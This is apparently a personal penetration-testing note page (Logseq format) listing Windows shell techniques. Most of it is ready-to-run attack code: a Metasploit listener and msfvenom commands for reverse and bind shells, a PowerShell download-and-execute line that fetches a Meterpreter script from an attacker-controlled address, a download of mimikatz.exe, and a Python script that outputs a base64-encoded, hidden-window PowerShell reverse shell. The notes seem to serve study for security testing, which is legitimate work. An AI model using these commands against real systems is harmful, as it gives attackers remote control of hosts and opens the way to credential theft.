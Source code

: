 public:: true

- Run program in background from powershell, like bind shells or other agents.
	- ```powershell
	  start-job { C:\users\chris\bind.exe }
	  ```
- Meterpreter
	- Start the listener
	  ```bash
	  msfconsole -q -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.183;set LPORT 8444;run;"
	  ```
	- Prepare the agent in powershell
		- ```bash
		  msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.183 LPORT=4444 -f psh > meterpreter.ps1
		  ```
		- Using `-f psh` generates a powershell script which perform an *in-memory injection* (Remote Process Memory Injection) and the specified payload
		  logseq.order-list-type:: number
		- Using `-f powershell` only generates the payload
		  logseq.order-list-type:: number
- Download and execute from powershell
	- ```powershell
	  powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.183:8000/meterpreter.ps1');meterpreter"
	  ```
- Download to disk with powershell
	- ```powershell
	  powershell -c "Invoke-WebRequest 'http://192.168.45.183:8000/mimikatz.exe' -OutFile 'mimikatz.exe'"
	  
	  # OR
	  
	  Invoke-WebRequest "http://192.168.45.183:8000/mimikatz.exe" -OutFile "mimikatz.exe"
	  ```
- Bind Shell
	- `cmd` bind shell
	  ```bash
	  msfvenom -p windows/x64/shell_bind_tcp PORT=4444 -f exe > bind_cmd_4444.exe
	  ```
		- I suggest to always use `cmd` over `powershell` as initial shell because some interactive tools (like [[Mimikatz]] ) might misbehave on powershell. Then you can always upgrade to powershell by typing `powershell`.
	- `powershell` bind shell
	  ```bash
	  msfvenom -p windows/x64/powershell_bind_tcp PORT=4444 -f exe > bind_ps_4444.exe
	  ```
- Reverse Shell
	- `cmd` binary
	  ```
	  msfvenom -a x64 --platform windows -p windows/x64/shell_reverse_tcp LHOST=192.168.45.171 LPORT=4444 -f exe > reverse_cmd_4444.exe
	  ```
	- `reverse-shell-windows.py`
		- ```python
		  #!/usr/bin/python3
		  #
		  # Usage: python3 reverse-shell-windows.py YOUR_IP 4444
		  #
		  
		  import sys
		  import base64
		  
		  payload = '$client = New-Object System.Net.Sockets.TCPClient("' + sys.argv[1] + '",' + sys.argv[2] + ');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 |Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
		  
		  print(payload)
		  
		  print("")
		  
		  cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
		  
		  print(cmd)
		  
		  ```